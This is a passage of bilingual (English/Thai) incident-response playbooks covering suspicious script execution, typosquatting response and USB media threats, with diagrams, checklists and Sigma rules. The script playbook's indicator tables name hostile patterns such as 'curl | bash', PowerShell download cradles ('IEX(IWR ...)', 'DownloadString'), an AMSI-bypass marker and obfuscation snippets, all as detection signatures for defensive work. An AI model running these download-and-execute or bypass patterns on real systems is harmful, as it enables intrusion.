| Execution from Temp/Downloads | [proc_temp_folder_execution.yml](../../08_Detection_Engineering/sigma_rules/proc_temp_folder_execution.yml) |

## Related Documents

- [IR Framework](../Framework.en.md)
- [Incident Report](../../11_Reporting_Templates/incident_report.en.md)
- [PB-01 Phishing](Phishing.en.md)
- [PB-03 Malware Infection](Malware_Infection.en.md)
- [PB-13 C2 Communication](C2_Communication.en.md)

## References

- [MITRE ATT&CK T1059 — Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)
- [Red Canary: PowerShell Threat Detection](https://redcanary.com/threat-detection-report/techniques/powershell/)
- [Microsoft Script Block Logging](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_logging_windows)


---

## File: 05_Incident_Response/Playbooks/Suspicious_Script.th.md

# Playbook: การรัน Script ที่น่าสงสัย (Suspicious Script Execution)

**ID**: PB-11
**ระดับความรุนแรง**: สูง | **หมวดหมู่**: Endpoint / Execution
**MITRE ATT&CK**: [T1059](https://attack.mitre.org/techniques/T1059/) (Command & Scripting Interpreter)
**ทริกเกอร์**: EDR alert (script execution), SIEM (Event 4104/4688), AMSI detection, email attachment filter


## หลังเหตุการณ์ (Post-Incident)

- [ ] ทบทวน script execution policies (PowerShell, Python, VBA)
- [ ] ใช้ AMSI protection ทุก endpoint
- [ ] ทบทวน application control / AppLocker policies
- [ ] สร้าง detection rule สำหรับ obfuscation patterns
- [ ] ใช้ constrained language mode สำหรับ PowerShell
- [ ] จัดทำ [Incident Report](../../11_Reporting_Templates/incident_report.en.md)

### ผัง Script Analysis Pipeline

```mermaid
graph LR
    Script["📜 Script"] --> AMSI["🛡️ AMSI"]
    AMSI --> Deobfuscate["🔓 Deobfuscate"]
    Deobfuscate --> Analyze["🔍 Analyze Intent"]
    Analyze --> IOC["🎯 Extract IOC"]
    IOC --> Hunt["🎯 Org-wide Hunt"]
    style Script fill:#3498db,color:#fff
    style AMSI fill:#27ae60,color:#fff
    style IOC fill:#e74c3c,color:#fff
```

### ผังตรวจจับ PowerShell Logging

```mermaid
sequenceDiagram
    participant PS as PowerShell
    participant AMSI
    participant EventLog as Event Log
    participant SIEM
    PS->>AMSI: สแกน script content
    AMSI-->>PS: ✅ / ❌
    PS->>EventLog: Event 4104 (ScriptBlock)
    EventLog->>SIEM: Forward
    SIEM->>SIEM: Detect obfuscation pattern
    SIEM->>SIEM: 🚨 Alert SOC
```

---

## ผังการตัดสินใจ

```mermaid
graph TD
    Alert["🚨 Suspicious Script"] --> Engine{"⚙️ Script Engine?"}
    Engine -->|PowerShell| PS["🔵 PowerShell"]
    Engine -->|VBScript/JScript| VB["🟠 WSH"]
    Engine -->|Bash/Python| Unix["🟢 Unix Shell"]
    Engine -->|Office Macro| Macro["📄 VBA Macro"]
    PS --> Encoded{"🔤 Encoded?"}
    VB --> Parent["👆 Parent Process?"]
    Unix --> Parent
    Macro --> Parent
    Encoded -->|ใช่| Decode["🔓 Decode + วิเคราะห์"]
    Encoded -->|ไม่| Content["📋 วิเคราะห์ Content"]
    Decode --> Malicious{"🦠 อันตราย?"}
    Content --> Malicious
    Parent --> Malicious
    Malicious -->|ใช่| Isolate["🔒 Isolate Host"]
    Malicious -->|ไม่ (FP)| Close["✅ False Positive"]
```

---

## 1. การวิเคราะห์

### 1.1 Script Engines และตัวบ่งชี้

| Engine | Binary | ตัวบ่งชี้อันตราย | ความเสี่ยง |
|:---|:---|:---|:---|
| **PowerShell** | powershell.exe, pwsh.exe | `-EncodedCommand`, `-NoProfile`, `-Bypass`, AMSI bypass, `IEX`, `DownloadString` | 🔴 สูง |
| **VBScript** | wscript.exe, cscript.exe | child process (cmd, powershell), ActiveXObject | 🟠 สูง |
| **Python** | python.exe, python3 | unexpected execution, subprocess, urllib | 🟠 สูง |
| **Bash/Shell** | bash, sh | `curl \| bash`, `wget + chmod +x`, reverse shell | 🔴 สูง |
| **Office Macro** | WINWORD.EXE → child | cmd.exe/powershell.exe spawn | 🔴 สูง |
| **MSHTA** | mshta.exe | inline VBScript, remote HTA | 🔴 สูง |

### 1.2 รายการตรวจสอบ

| รายการ | วิธีตรวจสอบ | เสร็จ |
|:---|:---|:---:|
| Script engine ที่ใช้ | EDR process details | ☐ |
| Full command line ที่รัน | EDR / Sysmon Event 1 | ☐ |
| Decoded content (ถ้า encoded) | CyberChef / EDR decode | ☐ |
| Parent process (ใคร/อะไรเรียก?) | EDR process tree | ☐ |
| มีการเชื่อมต่อเครือข่าย? (C2 callback) | EDR / Sysmon Event 3 | ☐ |
| มีไฟล์ถูกสร้างหรือแก้ไข? | EDR / Sysmon Event 11 | ☐ |
| มี persistence สร้าง? (registry, task) | EDR / Autoruns | ☐ |
| มี host อื่นรัน script เดียวกัน? | SIEM pivot | ☐ |
| AMSI blocked หรือ bypass สำเร็จ? | AMSI logs / Event 4104 | ☐ |

### 1.3 Obfuscation Patterns ที่น่าสงสัย

| Pattern | ตัวอย่าง |
|:---|:---|
| Base64 encoded | `-EncodedCommand`, `base64 -d` |
| String concatenation | `"Down" + "loadS" + "tring"` |
| XOR/char code | `[char]0x49 + [char]0x45 + [char]0x58` |
| Compression + encode | `IO.Compression.DeflateStream` |

---

## 2. การควบคุม

| # | การดำเนินการ | เครื่องมือ | เสร็จ |
|:---:|:---|:---|:---:|
| 1 | **Kill** process ที่รัน script | EDR | ☐ |
| 2 | **Isolate** host (network quarantine) | EDR | ☐ |
| 3 | **Block** script hash ที่ EDR ทั้งองค์กร | EDR policy | ☐ |
| 4 | **Block** C2 domain/IP (ถ้ามีการเชื่อมต่อ) | Firewall/DNS | ☐ |
| 5 | ค้นหา script hash / command pattern ใน host อื่น | SIEM | ☐ |

---

## 3. การกำจัด

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | ลบ script file + payload ที่ดาวน์โหลดมา | ☐ |
| 2 | ลบ persistence (scheduled task, registry run key, cron) | ☐ |
| 3 | หมุนเวียน credentials ถ้าสงสัยว่าถูก harvest | ☐ |
| 4 | สแกน AV/EDR เต็มรูปแบบ | ☐ |
| 5 | ตรวจ parent process — แก้ entry vector (macro, phishing) | ☐ |

---

## 4. การฟื้นฟู

| # | การดำเนินการ | เสร็จ |
|:---:|:---|:---:|
| 1 | เปิด **Script Block Logging** (PowerShell Event 4104) | ☐ |
| 2 | บังคับ **Constrained Language Mode** (PowerShell) | ☐ |
| 3 | ใช้ **AppLocker / WDAC** จำกัด script execution | ☐ |
| 4 | ปิด **WSH** (wscript/cscript) สำหรับผู้ใช้ทั่วไป | ☐ |
| 5 | บล็อก **Office Macros** จาก internet (Mark of the Web) | ☐ |

---

## 5. เกณฑ์การยกระดับ

| เงื่อนไข | ยกระดับไปยัง |
|:---|:---|
| Malware payload ถูกดาวน์โหลด | [PB-03 Malware](Malware_Infection.th.md) |
| C2 callback ยืนยัน | [PB-13 C2](C2_Communication.th.md) |
| หลาย host ถูกรัน script เดียวกัน | Major Incident |
| AMSI bypass สำเร็จ + persistence | Tier 2 escalation |
| Credential theft (Mimikatz-style) | [PB-09 Lateral Movement](Lateral_Movement.th.md) |

---

### ผัง AMSI Detection Pipeline

```mermaid
graph LR
    Script["📜 Script"] --> AMSI["🛡️ AMSI scan"]
    AMSI --> Clean{"✅ Clean?"}
    Clean -->|Yes| Execute["⚙️ Execute"]
    Clean -->|No| Block["❌ Block"]
    Block --> EDR["🚨 EDR alert"]
    EDR --> SOC["🎯 SOC investigate"]
    style Block fill:#e74c3c,color:#fff
    style AMSI fill:#27ae60,color:#fff
```

### ผัง Script Execution Policy

```mermaid
graph TD
    Policy["📋 Execution Policy"] --> AppLocker["🔒 AppLocker"]
    Policy --> WDAC["🛡️ WDAC"]
    Policy --> CLM["📜 Constrained Language"]
    AppLocker --> Whitelist["✅ Whitelist only"]
    WDAC --> SignedOnly["🔏 Signed scripts only"]
    CLM --> Limited["⚠️ Limited cmdlets"]
    style AppLocker fill:#27ae60,color:#fff
    style SignedOnly fill:#3498db,color:#fff
    style Limited fill:#f39c12,color:#fff
```

## กฎตรวจจับ (Sigma)

| กฎ | ไฟล์ |
|:---|:---|
| PowerShell Encoded Command | [proc_powershell_encoded.yml](../../08_Detection_Engineering/sigma_rules/proc_powershell_encoded.yml) |
| Office Spawning PowerShell | [proc_office_spawn_powershell.yml](../../08_Detection_Engineering/sigma_rules/proc_office_spawn_powershell.yml) |
| Execution from Temp/Downloads | [proc_temp_folder_execution.yml](../../08_Detection_Engineering/sigma_rules/proc_temp_folder_execution.yml) |

## เอกสารที่เกี่ยวข้อง

- [กรอบการตอบสนองต่อเหตุการณ์](../Framework.th.md)
- [PB-03 มัลแวร์](Malware_Infection.th.md)
- [PB-13 C2 Communication](C2_Communication.th.md)

## Script Risk Assessment

| Script Type | Risk Level | Common Abuse |
|:---|:---|:---|
| PowerShell (-Enc) | High | Obfuscated payload |
| VBScript/JScript | High | Dropper, downloader |
| Bash/Shell | Medium | Reverse shell |
| Python | Medium | Recon, exploitation |
| Batch (.bat/.cmd) | Medium | Persistence |

### Suspicious Script Indicators

| Indicator | Example | Detection |
|:---|:---|:---|
| Base64 encoding | -EncodedCommand | Regex pattern |
| Download cradle | IEX(IWR ...) | Process + network |
| AMSI bypass | [Ref].Assembly | String match |
| Obfuscation | String concatenation | Entropy analysis |
| Uncommon parent | Office → cmd → PS | Process tree |

### Script Deobfuscation Steps

| Step | Tool |
|:---|:---|
| Base64 decode | CyberChef |
| String extraction | FLOSS |
| Dynamic analysis | Any.run sandbox |

## อ้างอิง

- [MITRE ATT&CK T1059 — Command & Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)


---

## File: 05_Incident_Response/Playbooks/Typosquatting.en.md

# Playbook: Typosquatting / Domain Impersonation Response

**ID**: PB-49
**Severity**: High | **Category**: Resource Development / Initial Access
**MITRE ATT&CK**: [T1583.001](https://attack.mitre.org/techniques/T1583/001/) (Acquire Infrastructure: Domains), [T1608.005](https://attack.mitre.org/techniques/T1608/005/) (Link Target)
**Trigger**: Brand monitoring alert (lookalike domain registered), user report (suspicious email from similar domain), threat intel (phishing campaign using typosquat domain)

> ⚠️ **WARNING**: Typosquatting domains are used for phishing, credential harvesting, and supply chain attacks. Attackers register domains that look like yours — one character off — and target your customers, partners, and employees.

### Typosquatting Attack Methods

```mermaid
graph TD
    TS["🌐 Typosquatting Types"] --> Typo["Character swap\nexampel.com"]
    TS --> Missing["Missing char\nexmple.com"]
    TS --> Double["Double letter\nexammple.com"]
    TS --> TLD["TLD variation\nexample.co"]
    TS --> Homo["Homograph\nexаmple.com\n(Cyrillic а)"]
    TS --> Combo["Combosquat\nexample-login.com"]
    
    Typo --> Use["Phishing\nCredential harvest\nMalware delivery"]
    Missing --> Use
    Double --> Use
    TLD --> Use
    Homo --> Use
    Combo --> Use
    
    style TS fill:#ff6600,color:#fff
    style Homo fill:#cc0000,color:#fff
    style Use fill:#660000,color:#fff
```

### Attack Use Cases

```mermaid
graph TD
    Domain["Typosquat Domain"] --> Phish["📧 Phishing Emails\nFrom: admin@exampel.com"]
    Domain --> Web["🌐 Fake Website\nClone of real login page"]
    Domain --> BEC["💼 BEC Attack\ncfo@exampel.com → wire"]
    Domain --> Supply["📦 Supply Chain\nFake vendor emails"]
    Domain --> SEO["🔍 SEO Poisoning\nFake site in search results"]
    Domain --> Malware["💀 Malware\nDrive-by download"]
    style Domain fill:#ff6600,color:#fff
    style BEC fill:#cc0000,color:#fff
    style Malware fill:#660000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 Suspicious Domain Detected"] --> Source{"Detection source?"}
    Source -->|"Brand monitoring"| Brand["New domain registered\nsimilar to ours"]
    Source -->|"User report"| User["Email from similar\ndomain received"]
    Source -->|"Threat intel"| TI["Phishing campaign\nusing typosquat domain"]
    Brand --> Active{"Domain actively\nhosting content?"}
    Active -->|Yes| Hostile["🔴 Active threat\nTakedown required"]
    Active -->|"No — parked"| Monitor["Monitor + request\nproactive takedown"]
    User --> Block["Block domain\nCheck who received emails"]
    TI --> Block
    Hostile --> Takedown["Initiate domain takedown"]
    Block --> Scope["Scope: affected users?"]
    style Alert fill:#ff6600,color:#fff
    style Hostile fill:#cc0000,color:#fff
```

### Investigation Workflow

```mermaid
sequenceDiagram
    participant Monitor as Brand Monitor
    participant SOC as SOC Analyst
    participant Legal as Legal Team
    participant IT as IT / DNS
    participant Registrar

    Monitor->>SOC: 🚨 Lookalike domain registered
    SOC->>SOC: Analyze domain (WHOIS, DNS, content)
    SOC->>SOC: Check — is it hosting phishing content?
    SOC->>IT: Block domain at DNS/proxy/email gateway
    SOC->>Legal: Request domain takedown
    Legal->>Registrar: Submit abuse report + UDRP
    Registrar->>Legal: Domain suspended
    SOC->>SOC: Sweep email logs for messages from domain
```

### Domain Analysis Checklist

```mermaid
graph TD
    subgraph "Domain Intelligence"
        D1["WHOIS — registration date, registrant"]
        D2["DNS — A record, MX record, nameservers"]
        D3["Content — clone of real site?"]
        D4["SSL cert — who issued?"]
        D5["VirusTotal — reputation"]
        D6["URLScan — page screenshot"]
    end
    subgraph "Email Intelligence"
        E1["SPF/DKIM/DMARC — configured?"]
        E2["Email gateway — messages from this domain?"]
        E3["Users who received/clicked"]
    end
    style D3 fill:#cc0000,color:#fff
    style E1 fill:#ff6600,color:#fff
```

### Takedown Process

```mermaid
graph TD
    Detect["Detect typosquat domain"] --> Evidence["Collect evidence\nScreenshots, WHOIS, content"]
    Evidence --> Block["Block internally\nDNS, proxy, email"]
    Block --> Report["Report to registrar\nAbuse complaint"]
    Report --> UDRP{"Need UDRP/legal?"}
    UDRP -->|"Yes — disputed"| Legal["File UDRP dispute\nor legal action"]
    UDRP -->|"No — clear abuse"| Suspend["Registrar suspends\nwithin 24-72h"]
    Legal --> Resolve["Domain transferred\nor deleted"]
    Suspend --> Resolve
    style Detect fill:#ff6600,color:#fff
    style Report fill:#ffcc00,color:#000
```

### Response Timeline

```mermaid
gantt
    title Typosquatting Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        Brand monitoring alert  :a1, 00:00, 5min
        Domain analysis         :a2, after a1, 30min
    section Containment
        Block at DNS/proxy      :a3, after a2, 15min
        Block at email gateway  :a4, after a3, 15min
    section Takedown
        Submit abuse report     :a5, after a4, 30min
        Registrar response      :a6, after a5, 1440min
    section Investigation
        Email log sweep         :a7, after a3, 60min
```

---

## 1. Immediate Actions (First 30 Minutes)

| # | Action | Owner |
|:---|:---|:---|
| 1 | Analyze domain (WHOIS, DNS, content, SSL) | SOC T2 |
| 2 | Block domain at DNS resolver and web proxy | IT / SOC |
| 3 | Block domain at email gateway (inbound/outbound) | IT |
| 4 | Check email logs for messages from/to the domain | SOC |
| 5 | Screenshot all hosted content as evidence | SOC |
| 6 | Submit abuse report to domain registrar | Legal / SOC |

## 2. Investigation Checklist

### Domain Analysis
- [ ] WHOIS: registration date, registrant info, registrar
- [ ] DNS records: A, MX, NS, TXT (SPF/DKIM)
- [ ] Content: is it a clone of our website?
- [ ] SSL certificate: issuing CA, subject
- [ ] VirusTotal: detection by security vendors
- [ ] URLScan.io: page screenshot and analysis

### Email Impact
- [ ] Inbound emails from the typosquat domain
- [ ] Users who received emails from the domain
- [ ] Users who clicked links in emails from the domain
- [ ] Outbound emails to the typosquat domain (data leak risk)

### Broader Campaign
- [ ] Are there other similar domains registered?
- [ ] Is this part of a phishing campaign?
- [ ] Are partners/customers being targeted?

## 3. Containment

| Scope | Action |
|:---|:---|
| **DNS** | Sinkhole / block the domain |
| **Proxy** | URL category block |
| **Email** | Block inbound + outbound |
| **Users** | Notify anyone who interacted |
| **External** | Alert customers/partners |

## 4. Post-Incident

| Question | Answer |
|:---|:---|
| How was the typosquat domain detected? | [Brand monitoring/user report] |
| Was brand monitoring in place? | [Yes/No] |
| Were DMARC reject policies configured? | [Yes/No] |
| Was domain takedown successful? | [Status + timeline] |

## 6. Detection Rules (Sigma)

```yaml
title: Email From Typosquat Domain
logsource:
    product: email_gateway
detection:
    selection:
        sender_domain|re: '(examp1e|exampel|exmple|exampl)\.(com|org|net)'
    condition: selection
    level: high
```

## Related Documents
- [IR Framework](../Framework.en.md)
- [Phishing Playbook](Phishing.en.md)
- [BEC Playbook](BEC.en.md)

## References
- [MITRE T1583.001 — Domains](https://attack.mitre.org/techniques/T1583/001/)
- [ICANN — UDRP Policy](https://www.icann.org/resources/pages/help/dndr/udrp-en)


---

## File: 05_Incident_Response/Playbooks/Typosquatting.th.md

# Playbook: การตอบสนอง Typosquatting / Domain Impersonation

**ID**: PB-49
**ความรุนแรง**: สูง | **ประเภท**: Resource Development / Initial Access
**MITRE ATT&CK**: [T1583.001](https://attack.mitre.org/techniques/T1583/001/) (Acquire Infrastructure: Domains), [T1608.005](https://attack.mitre.org/techniques/T1608/005/) (Link Target)
**Trigger**: Brand monitoring alert (domain คล้ายคลึง), user รายงาน (อีเมลจาก domain คล้ายกัน), threat intel (phishing campaign ใช้ typosquat domain)

> ⚠️ **คำเตือน**: Typosquatting domains ใช้สำหรับ phishing, credential harvesting, และ supply chain attacks ผู้โจมตีจดทะเบียน domain ที่เหมือนของคุณ — ต่างอักษรเดียว — และเล็งเป้า customers, partners, และพนักงาน

### วิธีการ Typosquatting

```mermaid
graph TD
    TS["🌐 ประเภท Typosquatting"] --> Typo["สลับอักษร\nexampel.com"]
    TS --> Missing["ขาดอักษร\nexmple.com"]
    TS --> Double["อักษรซ้ำ\nexammple.com"]
    TS --> TLD["เปลี่ยน TLD\nexample.co"]
    TS --> Homo["Homograph\nexаmple.com\n(Cyrillic а)"]
    TS --> Combo["Combosquat\nexample-login.com"]
    
    Typo --> Use["Phishing\nCredential harvest\nMalware delivery"]
    Missing --> Use
    Double --> Use
    TLD --> Use
    Homo --> Use
    Combo --> Use
    
    style TS fill:#ff6600,color:#fff
    style Homo fill:#cc0000,color:#fff
    style Use fill:#660000,color:#fff
```

### กรณีการใช้เชิงโจมตี

```mermaid
graph TD
    Domain["Typosquat Domain"] --> Phish["📧 Phishing Emails\nFrom: admin@exampel.com"]
    Domain --> Web["🌐 เว็บปลอม\nClone หน้า login จริง"]
    Domain --> BEC["💼 BEC Attack\ncfo@exampel.com → โอนเงิน"]
    Domain --> Supply["📦 Supply Chain\nอีเมล vendor ปลอม"]
    Domain --> SEO["🔍 SEO Poisoning\nเว็บปลอมในผลค้นหา"]
    Domain --> Malware["💀 Malware\nDrive-by download"]
    style Domain fill:#ff6600,color:#fff
    style BEC fill:#cc0000,color:#fff
    style Malware fill:#660000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 ตรวจพบ Domain ผิดปกติ"] --> Source{"แหล่งตรวจจับ?"}
    Source -->|"Brand monitoring"| Brand["Domain ใหม่จดทะเบียน\nคล้ายของเรา"]
    Source -->|"User รายงาน"| User["ได้รับอีเมลจาก\ndomain ที่คล้ายกัน"]
    Source -->|"Threat intel"| TI["Phishing campaign\nใช้ typosquat domain"]
    Brand --> Active{"Domain มีเนื้อหา\nอยู่หรือไม่?"}
    Active -->|ใช่| Hostile["🔴 ภัยคุกคามที่ใช้งานอยู่\nต้อง takedown"]
    Active -->|"ไม่ — parked"| Monitor["ตรวจติดตาม + ขอ\nproactive takedown"]
    User --> Block["Block domain\nตรวจใครได้รับอีเมล"]
    TI --> Block
    Hostile --> Takedown["เริ่มกระบวนการ domain takedown"]
    Block --> Scope["ขอบเขต: ผู้ใช้ที่ได้รับผลกระทบ?"]
    style Alert fill:#ff6600,color:#fff
    style Hostile fill:#cc0000,color:#fff
```

### ขั้นตอนการสืบสวน

```mermaid
sequenceDiagram
    participant Monitor as Brand Monitor
    participant SOC as SOC Analyst
    participant Legal as Legal Team
    participant IT as IT / DNS
    participant Registrar

    Monitor->>SOC: 🚨 Lookalike domain จดทะเบียน
    SOC->>SOC: วิเคราะห์ domain (WHOIS, DNS, เนื้อหา)
    SOC->>SOC: ตรวจ — มีเนื้อหา phishing หรือไม่?
    SOC->>IT: Block domain ที่ DNS/proxy/email gateway
    SOC->>Legal: ขอ domain takedown
    Legal->>Registrar: ยื่น abuse report + UDRP
    Registrar->>Legal: Domain ถูก suspend
    SOC->>SOC: Sweep email logs หาข้อความจาก domain
```

### รายการตรวจสอบ Domain

```mermaid
graph TD
    subgraph "Domain Intelligence"
        D1["WHOIS — วันจดทะเบียน, ผู้จดทะเบียน"]
        D2["DNS — A record, MX record, nameservers"]
        D3["เนื้อหา — clone เว็บจริง?"]
        D4["SSL cert — ใครออก?"]
        D5["VirusTotal — reputation"]
        D6["URLScan — screenshot หน้าเว็บ"]
    end
    subgraph "Email Intelligence"
        E1["SPF/DKIM/DMARC — กำหนดค่าอยู่?"]
        E2["Email gateway — ข้อความจาก domain นี้?"]
        E3["Users ที่ได้รับ/คลิก"]
    end
    style D3 fill:#cc0000,color:#fff
    style E1 fill:#ff6600,color:#fff
```

### กระบวนการ Takedown

```mermaid
graph TD
    Detect["ตรวจพบ typosquat domain"] --> Evidence["รวบรวมหลักฐาน\nScreenshots, WHOIS, เนื้อหา"]
    Evidence --> Block["Block ภายใน\nDNS, proxy, email"]
    Block --> Report["รายงาน registrar\nAbuse complaint"]
    Report --> UDRP{"ต้อง UDRP/กฎหมาย?"}
    UDRP -->|"ใช่ — มีข้อพิพาท"| Legal["ยื่น UDRP dispute\nหรือดำเนินการทางกฎหมาย"]
    UDRP -->|"ไม่ — abuse ชัดเจน"| Suspend["Registrar suspend\nภายใน 24-72 ชม."]
    Legal --> Resolve["Domain ถูกโอน\nหรือลบ"]
    Suspend --> Resolve
    style Detect fill:#ff6600,color:#fff
    style Report fill:#ffcc00,color:#000
```

### Timeline การตอบสนอง

```mermaid
gantt
    title Typosquatting Response Timeline
    dateFormat HH:mm
    axisFormat %H:%M
    section Detection
        Brand monitoring alert  :a1, 00:00, 5min
        วิเคราะห์ domain        :a2, after a1, 30min
    section Containment
        Block ที่ DNS/proxy     :a3, after a2, 15min
        Block ที่ email gateway :a4, after a3, 15min
    section Takedown
        ยื่น abuse report       :a5, after a4, 30min
        Registrar ตอบกลับ       :a6, after a5, 1440min
    section Investigation
        Sweep email logs        :a7, after a3, 60min
```

---

## 1. การดำเนินการทันที (30 นาทีแรก)

| # | การดำเนินการ | ผู้รับผิดชอบ |
|:---|:---|:---|
| 1 | วิเคราะห์ domain (WHOIS, DNS, เนื้อหา, SSL) | SOC T2 |
| 2 | Block domain ที่ DNS resolver และ web proxy | IT / SOC |
| 3 | Block domain ที่ email gateway (inbound/outbound) | IT |
| 4 | ตรวจ email logs หาข้อความจาก/ไปยัง domain | SOC |
| 5 | Screenshot เนื้อหาที่ host ทั้งหมดเป็นหลักฐาน | SOC |
| 6 | ยื่น abuse report ไปยัง registrar | Legal / SOC |

## 2. รายการตรวจสอบ

### วิเคราะห์ Domain
- [ ] WHOIS: วันจดทะเบียน, ข้อมูลผู้จดทะเบียน, registrar
- [ ] DNS records: A, MX, NS, TXT (SPF/DKIM)
- [ ] เนื้อหา: clone ของเว็บไซต์เราหรือไม่?
- [ ] SSL certificate: CA ที่ออก, subject
- [ ] VirusTotal: การตรวจจับโดย security vendors

### ผลกระทบ Email
- [ ] Inbound emails จาก typosquat domain
- [ ] Users ที่ได้รับอีเมลจาก domain
- [ ] Users ที่คลิก links ในอีเมลจาก domain
- [ ] Outbound emails ไปยัง typosquat domain (ความเสี่ยง data leak)

## 3. การควบคุม (Containment)

| ขอบเขต | การดำเนินการ |
|:---|:---|
| **DNS** | Sinkhole / block domain |
| **Proxy** | URL category block |
| **Email** | Block inbound + outbound |
| **Users** | แจ้งทุกคนที่มีปฏิสัมพันธ์ |
| **ภายนอก** | แจ้ง customers/partners |

### มาตรการปกป้องแบรนด์
- [ ] ลงทะเบียน domain ที่คล้ายกัน (typo variants)
- [ ] เปิดใช้ DMARC, SPF, DKIM สำหรับ domain หลัก
- [ ] สมัคร domain monitoring service
- [ ] ตรวจ certificate transparency logs เป็นประจำ
- [ ] แจ้ง registrar เพื่อ takedown domains ที่ละเมิด

## 4. หลังเหตุการณ์ (Post-Incident)

| คำถาม | คำตอบ |
|:---|:---|
| Typosquat domain ถูกตรวจจับอย่างไร? | [Brand monitoring/user report] |
| มี brand monitoring หรือไม่? | [ใช่/ไม่] |
| DMARC reject policies กำหนดค่าอยู่หรือไม่? | [ใช่/ไม่] |
| Domain takedown สำเร็จหรือไม่? | [สถานะ + timeline] |

## 6. Detection Rules (Sigma)

```yaml
title: Email From Typosquat Domain
logsource:
    product: email_gateway
detection:
    selection:
        sender_domain|re: '(examp1e|exampel|exmple)\.(com|org|net)'
    condition: selection
    level: high
```

## เอกสารที่เกี่ยวข้อง
- [IR Framework](../Framework.th.md)
- [Phishing Playbook](Phishing.th.md)
- [BEC Playbook](BEC.th.md)

## References
- [MITRE T1583.001 — Domains](https://attack.mitre.org/techniques/T1583/001/)
- [ICANN — UDRP Policy](https://www.icann.org/resources/pages/help/dndr/udrp-en)


---

## File: 05_Incident_Response/Playbooks/USB_Removable_Media.en.md

# Playbook: USB / Removable Media Incident Response

**ID**: PB-40
**Severity**: Medium–High | **Category**: Initial Access / Exfiltration
**MITRE ATT&CK**: [T1091](https://attack.mitre.org/techniques/T1091/) (Replication Through Removable Media), [T1052.001](https://attack.mitre.org/techniques/T1052/001/) (Exfiltration over USB), [T1200](https://attack.mitre.org/techniques/T1200/) (Hardware Additions)
**Trigger**: DLP alert (USB copy), EDR (autorun execution), physical security (unauthorized USB device), SIEM (mass file copy to removable drive)

> ⚠️ **WARNING**: USB devices can deliver malware (Rubber Ducky, BadUSB), exfiltrate data, or bridge air-gapped networks. Never plug unknown USBs into corporate systems.

### USB Threat Landscape

```mermaid
graph TD
    USB["🔌 USB Threats"] --> Malware["Malware Delivery"]
    USB --> Exfil["Data Exfiltration"]
    USB --> HW["Hardware Attack"]
    USB --> Bridge["Air-Gap Bridge"]
    
    Malware --> Autorun["Autorun malware\nT1091"]
    Malware --> Rubber["Rubber Ducky\nHID injection"]
    Malware --> BadUSB["BadUSB\nFirmware exploit"]
    
    Exfil --> Copy["Mass file copy\nT1052.001"]
    Exfil --> Encrypt["Encrypted container\nVeraCrypt"]
    
    HW --> Killer["USB Killer\nHardware damage"]
    HW --> Keylogger["USB Keylogger\nKeystroke capture"]
    
    Bridge --> Stuxnet["Stuxnet-style\nOT network bridge"]
    
    style USB fill:#ff6600,color:#fff
    style Rubber fill:#cc0000,color:#fff
    style BadUSB fill:#cc0000,color:#fff
    style Killer fill:#660000,color:#fff
```

### USB Attack Scenarios

```mermaid
graph LR
    A["1️⃣ Social Engineering\nUSB drop in parking lot"] --> B["2️⃣ Device Plugged In\nCuriosity/ignorance"]
    B --> C["3️⃣ Payload Executes\nAutorun/HID inject"]
    C --> D["4️⃣ Malware Installs\nPersistence established"]
    D --> E["5️⃣ C2 Connection\nBeacon to attacker"]
    E --> F["6️⃣ Lateral Movement\nNetwork compromise"]
    style A fill:#ffcc00,color:#000
    style C fill:#ff4444,color:#fff
    style F fill:#660000,color:#fff
```

---

## Decision Flow

```mermaid
graph TD
    Alert["🚨 USB Activity Detected"] --> Type{"Type of activity?"}
    Type -->|"Unknown device plugged in"| Unknown["Check device type\nHID? Storage? Network?"]
    Type -->|"Mass file copy to USB"| DLP["Check DLP policy\nAuthorized transfer?"]
    Type -->|"Autorun/execution from USB"| Exec["🔴 Potential malware\nIsolate immediately"]
    Unknown --> HID{"HID device?"}
    HID -->|Yes| Rubber["🔴 Possible Rubber Ducky\nPull USB immediately"]
    HID -->|"No — Storage"| Authorized{"Authorized user & device?"}
    Authorized -->|Yes| Policy["Log & monitor"]
    Authorized -->|No| Block["Block & investigate"]
    DLP --> Sensitive{"Sensitive data?"}
    Sensitive -->|Yes| DLPBlock["🔴 Block transfer\nAlert Data Protection"]
    Sensitive -->|No| Review["Review purpose\nLog for audit"]
    Exec --> Isolate["Isolate endpoint\nPreserve evidence"]
    style Alert fill:#ff6600,color:#fff
    style Rubber fill:#cc0000,color:#fff
    style DLPBlock fill:#cc0000,color:#fff
```

### Investigation Workflow

```mermaid
sequenceDiagram
    participant DLP
    participant SOC as SOC Analyst
    participant IT as IT Security
    participant HR
    participant IR as IR Team

    DLP->>SOC: 🚨 USB mass copy alert
    SOC->>SOC: Check: who, what files, when
    SOC->>IT: Pull USB device registry (VID/PID)
    IT->>SOC: Device info: personal USB drive
    SOC->>SOC: Classify data sensitivity
    SOC->>HR: Alert — potential data theft
    SOC->>IR: Escalate if sensitive data confirmed
    IR->>IT: Review all USB activity for this user (30 days)
```

### USB Device Classification

```mermaid
graph TD
    subgraph "🟢 Low Risk"
        Mouse["USB Mouse\nStandard HID"]
        Keyboard["USB Keyboard\nStandard HID"]
        Headset["USB Headset\nAudio device"]
    end
    subgraph "🟡 Medium Risk"
        Storage["USB Flash Drive\nMass storage"]
        ExtHDD["External HDD\nMass storage"]
        Phone["Smartphone\nMTP/PTP"]
    end
    subgraph "🔴 High Risk"
        RubberDuck["Rubber Ducky\nHID + scripting"]
        BadUSBDev["BadUSB Device\nFirmware exploit"]
        WiFiPineapple["WiFi Pineapple\nNetwork bridge"]
        USBKiller["USB Killer\nPower surge"]
    end
    style RubberDuck fill:#cc0000,color:#fff
    style BadUSBDev fill:#cc0000,color:#fff
    style USBKiller fill:#660000,color:#fff
```

### Data Exfiltration Detection

```mermaid
graph TD
    Monitor["USB Monitoring"] --> Volume{"Data volume transferred?"}
    Volume -->|"< 100MB"| Low["🟢 Low risk\nLog and review"]
    Volume -->|"100MB - 1GB"| Med["🟡 Medium risk\nReview file types"]
    Volume -->|"> 1GB"| High["🔴 High risk\nPotential mass exfil"]
    High --> FileType{"File types?"}
    FileType -->|"Source code, DB dumps"| Critical["💀 Critical\nIP theft"]
